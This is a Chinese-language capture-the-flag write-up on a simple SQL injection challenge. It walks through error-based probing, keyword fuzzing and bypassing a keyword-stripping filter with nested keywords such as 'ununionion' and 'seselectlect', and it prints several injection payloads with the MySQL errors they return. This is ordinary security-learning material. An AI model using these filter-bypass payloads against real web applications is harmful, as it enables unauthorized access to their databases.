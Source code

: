 
### 00x4 简单的sql注入

我做sql注入题目的一般思路


1. 判断有没有读写权限
2. 判断注入点
3. 查出基本信息
4. 爆表爆列爆用户名密码

做这道题目的时候，下意识的查看了一下原码，发现表单那里post上去的字段名是id，那么联想到sqllab了。
输入数值1返回结果：  

> ID: 1  
> name: baloteli

在输入1\：
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\'' at line 1

可见输入的是字符型，注入点存在，and 1 2一下，
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1=1+'' at line 1    

说明好像过滤掉了些东，fuzz测试一下（模糊测），输入
> 1 and or where union select database() sleep() information_schema schemata column from # --
  
返回结果：

> ID: 1 or where  
> name: baloteli

从id项看出有几个已经被过滤掉了，而且是直接把关键字给去掉，那么可以用类似ab(abc)c来绕过过滤，abc是要绕过的关键字，使用时不加括号，这里加括号只是为了区分，也就是过滤了select，那么我在select周围加了一个select不就行了，selecselectt，把里面select过滤了，外面的selec 和t组合一下就是一个select。

- 开始爆一下一些基本信息
> id=1' ununionion seselectlect database() frofromm information_schema.schemata wherwheree '1'='1  
> 
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'seselectlect database() frofromm information_schema.schemata wherwheree '1'='1'' at line 1
  
看到出错的信息还是这样，没有union那几个关键词没有过滤掉，还是哪里出现了问题，思路应该是没有问题的，我看了一看浏览器的url，发现。。。里面关键词前面有个+号，过滤了空格，坑死爹了。那么更改plagload:

> id=1'+ununionion+seselectlect+database()+frofromm+information_schema.schemata+wherwheree+'1'='1  

还是上面的错误，那么多加个空格呢
> id=1' +ununionion +seselectlect +database() +frofromm +information_schema.schemata +wherwheree +'1'='1  
  
还是不行
全换成空格呢(注意是2个空格，有可能hexo主题的原因把我的空格吃了)

> id=1'  ununionion  seselectlect  database()  frofromm  information_schema.schemata  wherwheree  '1'='1  
  
发现。。。ab(abc)c这样的形式不行，换成abcabc这样的形式，发现可以，具体的我也不清楚,有可能是正则的问题。  
